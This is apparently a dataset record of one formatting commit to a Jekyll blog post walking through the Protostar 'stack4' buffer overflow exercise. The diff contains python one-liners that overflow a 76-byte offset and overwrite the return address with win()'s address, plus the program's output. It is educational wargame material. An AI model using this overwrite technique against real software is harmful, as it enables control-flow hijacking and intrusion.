

Before and after one commit to v-4-p-0-r/v-4-p-0-r.github.io, a Jekyll site: the page built from _posts/2018-10-29-protostar-stack-4.markdown, in a window 1280 px wide and 900 px high, scrolled down 872 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
fixed formatting

```diff
--- a/_posts/2018-10-29-protostar-stack-4.markdown
+++ b/_posts/2018-10-29-protostar-stack-4.markdown
@@ -40,7 +40,7 @@ The address in this case is 0x80483f4.
 
 We now just need to find the offset between the end of the buffer, which we will fill up, and the EIP we want to overwrite. This can be done by writing a script, trial and error, or we can just use what we did before (76 characters). The buffer is the same size, so we might as well give 76 a shot
 
-$python -c 'print "A"*76' | ./stack4
+$python -c 'print "A"*76' \| ./stack4
 
 Segmentation fault
 
@@ -48,13 +48,13 @@ $
 
 A segmentation fault is a good sign. We are overwriting the EIP, and causing it to access memory out of bounds. Just to be safe, we can test it at 75 characters and see if it segfaults.
 
-$python -c 'print "A"*75' | ./stack4
+$python -c 'print "A"*75' \| ./stack4
 
 $
 
 Looks like 76 is perfect, now we need to append the address of win(), in little endian byte order, and cause the program to execute the win() function.
 
-$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
+$python -c 'print "A"*76 + "\xf4\x83\x04\x08"' \| ./stack4
 
 Code flow successfully changed
 
```
